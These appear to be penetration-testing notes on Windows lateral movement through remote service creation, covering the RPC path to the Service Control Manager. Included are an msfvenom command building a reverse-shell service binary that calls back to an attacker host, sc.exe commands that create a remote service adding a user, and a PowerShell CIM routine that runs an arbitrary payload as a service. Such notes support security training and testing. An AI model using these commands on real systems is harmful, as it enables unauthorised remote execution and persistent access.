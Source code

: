 ## 3. services
Windows services can be used to run arbitrary commands because they execute a command when started. Standard tool for creating a service on remote host is the `sc.exe`. It exploits default ability of Windows services to execute arbitrary commands at the start of the service. Target account must be member of the _Administrators_ group. The victim's OS is in charge of starting the service, so the attacker is not be able to look at the command's output - it's blind attack.

It tries to connect to the Service Control Manager (SVCCTL) throught RPC in two ways:

1. The client will first connect to the Endpoint Mapper (EPM) at port 135 (catalogue of available RPC endpoints) and request information on the SVCCTL service program. The EPM will respond with the IP:PORT of SVCCTL (usually a dynamic port in the range of 49152-65535).
2. The client will try to reach SVCCTL through SMB named pipes on port 445 (SMB) or 139 (SMB over NetBIOS).

> NOTE: The victim's OS is in charge of starting the service, you won't be able to look at the command output.

```bash
# Generate service campatible (exe-service) reverse shell
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=<attacker-ip> LPORT=<attacker-port> -o <output-name.exe>
```

> NOTE: `sc.exe` doesn't allow to specify credentials as a part of the command so it might be necessary to start new shell (with another account) using `runas` command.

```powershell
# Start new shell

# Execute command - create a user
sc.exe \\<target-ip> create <service> binPath= "net user <user> <pass> /add" start= auto
sc.exe \\<target-ip> start <service>

# Stop service
sc.exe \\<target-ip> stop <service>
sc.exe \\<target-ip> delete <service>
```

### 3.1. Service creation

```powershell
$ServiceName = "<service-name>"
$Command = "<cmd-payload>"

# Run a service remotely
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
  Name = $ServiceName;
  DisplayName = $ServiceName;
  PathName = $Command;
  ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
  StartMode = "Manual"
}
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE '$ServiceName'"
Invoke-CimMethod -InputObject $Service -MethodName StartService

# Stop the service
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```
